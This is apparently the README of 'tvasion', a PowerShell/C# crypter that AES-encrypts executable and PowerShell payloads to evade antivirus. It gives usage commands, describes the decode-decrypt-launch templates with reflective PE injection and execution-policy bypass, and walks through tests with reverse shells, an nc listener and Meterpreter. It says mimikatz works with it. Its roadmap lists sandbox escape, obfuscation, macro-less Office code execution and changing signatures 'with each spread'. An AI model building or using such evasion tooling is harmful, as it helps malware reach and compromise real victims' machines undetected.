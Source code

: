 # tvasion - Powershell / C# AES anti virus evasion 
Anti virus evasion based on file signature change via AES encryption with Powershell and C# evasion templates which support executable and Powershell payloads with Windows executable, Powershell or batch output. Developed with Powershell on Linux for Windows targets :)

Buzzwords: Anti virus evasion, crypter, AES encryption, ReflectivePEInjection, PowerShell execution policy bypass

[https://github.com/loadenmb/tvasion](https://github.com/loadenmb/tvasion)

## Features
- outputs 32 bit executable (.exe), Powershell (.ps1) or batch (.bat)
- works with excutable + Powershell payloads
- AES encryption for file signature change
- Powershell and C# evasion templates available
- EXOTIC: Powershell, mcs based developed on Linux for Windows targets :-)
- easy to extend

## Usage
```
./tvasion.ps1 -h
tvasion: AES based anti virus evasion
./tvasion.ps1 -t (exe|bat|ps1) [PAYLOAD (exe|ps1)] OR ./tvasion.ps1 [PAYLOAD (exe|ps1)] -t (exe|bat|ps1)
parameter:
[PAYLOAD (exe|ps1)]       input file path. requires: exe, ps1                     required
-t (exe|ps1|bat)          output file type: exe, ps1, bat                         required
-f (PATH)                 path to template                                        optional
-o (PATH)                 set output directory. default is ./out/                 optional
-d                        generate debug output                                   optional
-h                        display this help                                       optional
examples:
./tvasion.ps1 -t exe tests/ReverseShell.ps1                                       # generate windows executable (.exe) from powershell
./tvasion.ps1 -t exe tests/ReverseShell_c#amd64.exe                               # generate windows executable (.exe) from excecutable
./tvasion.ps1 -t bat tests/ReverseShell.ps1                                       # generate batch (.bat) from powershell
./tvasion.ps1 -t ps1 tests/ReverseShell_c#amd64.exe -f mytpl1.ps1 -o ../ -d       # ... .exe -> .ps1, custom template (-f), out dir (-o), debug (-d)
```
Files generated in ./out directory
See more examples in: [test file](tests.ps1)

## Setup Debian Stretch / Kali Linux
Depencies:
- [PowerShell](https://github.com/PowerShell/PowerShell)  
- [mono-mcs](https://www.mono-project.com/docs/about-mono/languages/csharp/) (optional but required for cross plattform executable compilation for executeable payloads)

```shell
# setup Powershell for Linux. see link above, be root

# install compiler depencies (optional, required for executable output)
apt-get install -y mono-mcs

# clone with git
git clone https://github.com/loadenmb/tvasion.git
```
    
## Details & advanced usage
Change AES decryption template source code to make sure evasion output is undetectable by anti virus solutions.

C# and powershell templates from ./templates/ directory basically do: 
```
decode -> decrypt -> launch payload
```
It's input / output type dependent which template needs changes. See here:

| payload type  |  output type  | template from ./templates/ folder |  details |
| ------------- | ------------- | --------------------------------- | -------- |
| powershell    | powershell    | default.ps1                       | Invoke-Expression |
| executable    | powershell    | default_exe.ps1                   | Invoke-Expression + ReflectivePEInjection (*1) |
| executable    | executable    | default_exe.cs                    | PEInjection (*1) |
| powershell    | executable    | default.cs                        | PowerShell execution policy bypass with -enc (*2) |
| powershell    | batch         | default_bat.ps1 + default.bat     | PowerShell execution policy bypass with -enc + Invoke-Expression |
| executable    | batch         | default_exe_bat.ps1 + default.bat | PowerShell execution policy bypass with -enc + Invoke-Expression + ReflectivePEInjection (*1) |

(*1) not all binaries work; Meterpreter, mimikatz work. See [DEP](https://stackoverflow.com/questions/350977/how-to-make-my-program-dep-compatible), [ASLR](https://security.stackexchange.com/questions/18556/how-do-aslr-and-dep-work), and [what to do against](https://security.stackexchange.com/questions/20497/stack-overflows-defeating-canaries-aslr-dep-nx).

(*2) payload size restriction of arguments length of process.startupinfo.arguments see TODO

./templates/lib/ contain helper which get encrypted together with payload. You do not need to care about these files for a successful AV evasion.

Payload is created by [tvasion.ps1](tvasion.ps1) like this:
```
                                -> pasted & compiled into 64 bit windows executeable written in C# (.exe -> .exe)
payload -> AES encryption -> base64 encoded 
                                -> pasted into powershell script (.ps1 -> .ps1) 
                                        -> base64 encoded 
                                                -> pasted & into 64 bit windows executeable written in C# (.ps1 -> .exe)             
                                                -> pasted into batch file (.ps1 | .exe -> .bat)       
```

### Tests
Windows C# and powershell reverse shells are included in ./tests/ folder for testing purposes. 

Run tests:
- [setup metasploit framework](https://metasploit.help.rapid7.com/docs/installing-the-metasploit-framework)
- change IP to your IP in ./tests/ReverseShell.ps1 and ./tests/ReverseShell.cs and ./tests.ps1 (we need single configuration)
- run msfconsole in seperate terminal
- run ./tests.ps1 for compilation / test file creation. see ./out/ for results (16 different malicious files at the moment)
- listen for reverse connections on linux machine:
```shell
# listen for reverse shell connections from ./tests/ReverseShell.ps1 and ./tests/ReverseShell.cs.
nc -nvlp 4242
```
```shell
# use msfconsole you opened in other terminal, we need this launched before to generate Meterpreter in ./tests.ps1
# listen with metasploit multi handler for windows/meterpreter/reverse_tcp on port 4444 (tests.ps1 generated Meterpreter will connect this port)
cd ./tvasion/tests/
msfconsole
resource msf_multihandler.rc
```
- copy files from ./out/ directory to target Windows machine & execute

## Roadmap / TODO / ideas (feel free to work on)
- add better / alternative templates
    - add better C# PEInjection / remove old, move to encrypted dotnet assembly: PE injection, hide window
    - fix ps1 -> exe payload size restriction / add alternative C# launcher via System.Management.Automation
    - add alternative ps1 -> ps1 template via System.Management.Automation
- add more evasion / obfocusation functionality:
    - randomize variable names, white spaces / line breaks / tabs, call order
    - hide native method names
    - better cloaking for encrypted payload string
    - auto generated useless code
    - payload compression / script comment removement
    - anti virus sandbox escape (maybe via long execution delay or try to allocate many resources until sandbox stops processing)
- add shellcode payloads as input / output type
- make ./tvasion.ps1 self run on windows not created files only (never tested, this makes it easy to integrate tvasion in your tools to automatically change your signature with each spread)
- add new output types:
    - vcf ouput (local code execution, if working in 2019) 
    - .doc + .xls ouput via DDEAUTO or OLE / Powerquery (local code execution without macro)
- add executable file binder (PE file injection)?
- bring back pipes support (string / hex pipes only, pswh has no binary pipes)

## Contribute
Discuss features, report issues, questions -> [here](https://github.com/loadenmb/tvasion/issues).

Developer -> fork & pull ;)

## Related
- [Powershell ReflectivePEInjection](https://github.com/clymb3r/PowerShell/blob/master/Invoke-ReflectivePEInjection/Invoke-ReflectivePEInjection.ps1) @ github
- [C# PE loader](https://github.com/Arno0x/CSharpScripts/blob/master/peloader.cs) @ github
- [15 ways to bypass PowerShell execution policy](https://blog.netspi.com/15-ways-to-bypass-the-powershell-execution-policy/) @ external blog
- [AVIator - popular C# AES crypto evasion with UI, without templates](https://github.com/Ch0pin/AVIator) @ github
